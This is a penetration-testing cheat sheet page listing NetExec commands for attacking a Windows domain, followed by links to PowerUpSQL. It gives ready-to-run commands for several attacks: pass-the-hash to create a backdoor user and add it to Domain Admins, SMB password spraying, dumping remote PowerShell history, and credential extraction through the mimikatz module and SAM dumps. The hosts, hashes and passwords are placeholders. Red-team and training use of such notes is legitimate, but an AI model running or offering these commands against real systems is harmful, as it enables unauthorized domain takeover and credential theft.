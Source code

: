## NetExec

GitHub repo: [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)

### Pass-the-Hash

Because hashes are just as good:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">## create a new user
nxc smb 10.10.10.123 -u 'administrator' -d 'burmat.local' -H 'd7452863d1e8e15241nn50ceb1ab9dfe' -x 'net user burmat Pwn3dPwn3d! /add /domain'
<strong>
</strong><strong>## add user to domain admins group
</strong>nxc smb 10.10.10.123 -u 'administrator' -d 'burmat.local' -H 'd7452863d1e8e15241nn50ceb1ab9dfe' -x 'net group "Domain Admins" /add burmat /domain'
</code></pre>

### SMB Password Spraying

Switch out usernames/passwords/targets with lists:

{% code overflow="wrap" %}
```bash
## to spray that Spring2020! and a list of users against a list of targets:
nxc smb 'targets.txt' -u 'users.txt' -p 'Spring2024!' -d 'burmat.local'
```
{% endcode %}

### Dumping Remote PowerShell History

{% code overflow="wrap" %}
```bash
nxc smb 10.250.1.33 -u 'dev001' -p 'burmat123$' -d 'burmat.local' -M powershell_history
```
{% endcode %}

### Extracting Credentials

{% code overflow="wrap" %}
```bash
## mimikatz module
nxc smb 10.10.10.123 -u 'administrator' -d 'burmat.local' -p 'S3cur3PW123' -M mimikatz -o COMMAND='privilege::debug'

## SAM database
nxc smb 10.10.10.123 -u 'administrator' -d 'burmat.local' -p 'S3cur3PW123' --sam
```
{% endcode %}

## POWERUPSQL

GitHub Repo: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) and more thorough cheat sheet: [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
